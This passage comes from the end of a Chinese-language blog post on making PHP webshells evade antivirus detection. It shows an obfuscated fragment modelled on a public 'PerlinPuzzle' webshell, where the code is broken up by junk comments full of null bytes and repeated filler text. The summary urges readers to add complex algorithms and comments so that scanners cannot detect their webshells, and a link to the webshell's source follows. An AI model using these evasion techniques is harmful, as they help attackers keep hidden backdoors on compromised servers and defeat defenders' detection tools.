            $userans =/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/$this ->blockA + $this/*->ddd;
            echo();die();\n\0
            \00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/-> blockB + $this -> blockC/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/+ $this -> blockD;
        }

        public function/*\00\00\00%00%00fvjiv
        fmfveb vebvgebb;
        gjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/getLockerStatus() {
            global $text;$text =/*\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\
            00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！\00\00\00%00%00fvjivgjisghtrehgtghbvtrifh 希儿世界第一可爱！*/strrev($text);
            if ($this -> blockA ===$this -> blockB and $this -> blockA === $this -> blockC and $this -> blockA === $this -> blockD) return true;
            else return false;
        }
    }

    function pause($obj) {
        global $appor5nnb;
        if (!$appor5nnb -> getLockerStatus()) die();
        return $obj;
    }

    $appor5nnb = new InazumaPuzzle();
    $appor5nnb -> __AFG50CE4_RG1();
    $cvb33ff55 = new PerlinNoise(3000, 700.4, 56.7, "DIFF_PERLIN");
    $cvb33ff55->__BHUYTVV8_1();
    $cvb33ff55 -> __CPRBB0R0_l();
    $cvb33ff55 ->__HNBB70CA_5();  
?>

```

这个代码看着就乱，根本读不下去，里面很多无用代码，很容易被误导，读不懂。  





# 总结

webshell的免杀有很多方式，师傅们可以多加一些复杂的算法和注释进去，让代码变得混乱，这样杀毒软件就很难检测了。

# 参考

<https://github.com/misaka19008/PerlinPuzzle-Webshell-PHP/blob/master/perlin.php>  
<https://zhuanlan.zhihu.com/p/206271895?ivk_sa=1024320u&utm_id=0>  
<https://www.miyoushe.com/ys/article/17414097>  
<https://blog.csdn.net/qq_45521281/article/details/105849770>
